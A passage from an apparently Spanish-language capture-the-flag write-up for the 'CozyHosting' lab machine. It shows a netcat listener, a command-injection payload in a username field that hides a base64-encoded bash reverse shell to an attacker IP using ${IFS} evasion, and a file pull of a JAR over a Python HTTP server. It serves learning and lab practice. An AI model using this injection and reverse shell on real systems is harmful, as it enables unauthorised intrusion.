 ```sh
rlwrap nc -lnvp 4747
```

Se reemplaza la línea con lo siguiente:

```sh
host=10.10.14.13&username=;echo${IFS%??}"YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjEzLzQ3NDcgMD4mMSAg"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

Y se envía la solicitud, no sin antes aplicar un url-encode para asegurarse que no haya problemas al anviar los datos.

Si todo se realizó correctamente obtendremos la revershell como el usuario "app"

![CozyHosting 7](/assets/images/post/2024/cozy7.png)

Los usuarios que son de interés son `josh` y `root`, por lo que lo tendremos en cuenta para después.

![CozyHosting 8](/assets/images/post/2024/cozy8.png)

Al listar los documentos podemos ver un archivo "cloudhosting-0.0.1.jar.jar" que podría contener información relevante.

Para traer ese archivo a nuestra máquina local. Desde la máquina en la que acabamos de ganar acceso montamos un servidor http con python:

```sh
python3 -m http.server 4848
```

En nuestra máquina lo traemos con un wget.

```sh
wget 10.10.11.230:4848/cloudhosting-0.0.1.jar
```

Una vez el archivo esté en el directorio local, descomprimirlo con:
